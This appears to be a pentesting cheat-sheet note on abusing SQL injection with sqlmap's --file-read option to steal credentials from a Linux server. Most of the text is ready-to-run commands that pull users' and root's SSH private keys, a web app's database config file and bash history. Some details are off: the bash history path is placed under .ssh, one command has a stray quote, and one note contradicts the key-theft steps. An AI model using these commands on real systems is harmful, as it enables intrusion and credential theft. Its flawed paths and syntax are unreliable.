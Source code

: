 # Linux

Search Tag(s): #sqlmap #enumeration-and-discovery #credential-access-and-dumping

## Conditions

1. The DB user must have **FILE** and **SELECT** privileges perform with the flags `--privileges -U CU`.
2. **Note:** Not all files are readable unless the current user is `root@<IP>` (e.g. `root@localhost`). You'll notice that you can't fetch SSH credentials which is normal due to security reasons.

## Automated

- Retrieve SSH keys

```
$ sqlmap -u "<URL>" --random-agent --file-read="/home/<username>/.ssh/id_rsa"

$ sqlmap -u "<URL>" --random-agent --file-read="/root/.ssh/id_rsa"
```

- Retrieve database config file. You have to lookup of what web technology it's using such as, a **content management system (CMS)** like wordpress. Find the absolute path of the [[Content Management System (CMS)#^bc9e6e|database config file]] after enumeration phase for the web root directory.

```
$ sqlmap -u "<URL>" --random-agent --file-read="/var/www/html/dvwa/config.php"
```

- Retrieve history commands. You can find more in the [[Content Management System (CMS)|privilege escalation credentials]] section.

```
$ sqlmap -u "<URL>"" --random-agent --file-read="/home/<username>/.ssh/.bash_history"

$ sqlmap -u "<URL>" --random-agent --file-read="/root/.ssh/.bash_history"
```